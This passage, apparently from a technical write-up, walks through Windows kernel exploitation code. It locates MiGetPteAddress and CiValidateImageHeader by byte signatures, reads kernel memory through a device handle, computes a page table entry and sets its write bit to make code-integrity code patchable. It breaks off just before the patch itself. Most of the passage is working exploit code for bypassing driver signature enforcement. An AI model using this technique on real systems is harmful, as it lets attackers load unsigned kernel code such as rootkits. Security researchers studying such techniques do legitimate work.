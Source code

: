 ```
}

...
const char MiGetPteAddressSig[] = { 0x48, 0xc1, 0xe9, 0x09, 0x48, 0xb8, 0xf8, 0xff, 0xff, 0xff, 0x7f, 0x00, 0x00, 0x00, 0x48, 0x23, 0xc8, 0x48, 0xb8 };

const char CiValidateImageHeaderSig[] = { 0x48, 0x33, 0xc4, 0x48, 0x89, 0x45, 0x50, 0x48, 0x8b };

const int CiValidateImageHeaderSigOffset = 0x23;

gadgetSearch = signatureSearchInSection((char*)".text", (char*)kernelBase, MiGetPteAddressSig, sizeof(MiGetPteAddressSig));

MiGetPteAddress = gadgetSearch - kernelBase + sizeof(MiGetPteAddressSig);

gadgetSearch = signatureSearchInSection((char*)"PAGE", (char*)ciMap, CiValidateImageHeaderSig, sizeof(CiValidateImageHeaderSig));

CiValidateImageHeader = gadgetSearch - ciMap + ciBase - CiValidateImageHeaderSigOffset;
...

```

With that done we need to read out the base PTE address:

```
copyKernelMemory(devHandle, (ULONG_PTR)&pteBase, MiGetPteAddress, sizeof(void*));

```

Next we need to read our the PTE entry for `MiGetPteAddress` so we can modify this:

```
ULONG_PTR getPTEForVA(ULONG_PTR pteBase, ULONG_PTR address) {
	ULONG_PTR PTEBase = pteBase;
	address = address >> 9;
	address &= 0x7FFFFFFFF8;
	address += (ULONG_PTR)PTEBase;

	return address;
}

ULONG_PTR pteAddress = getPTEForVA(pteBase, CiValidateImageHeader);
copyKernelMemory(devHandle, (ULONG_PTR)&pte, pteAddress, 8);

```

We update the write bit of the page:

```
pte |= 2;

```

Finally, we copy our memory patch:
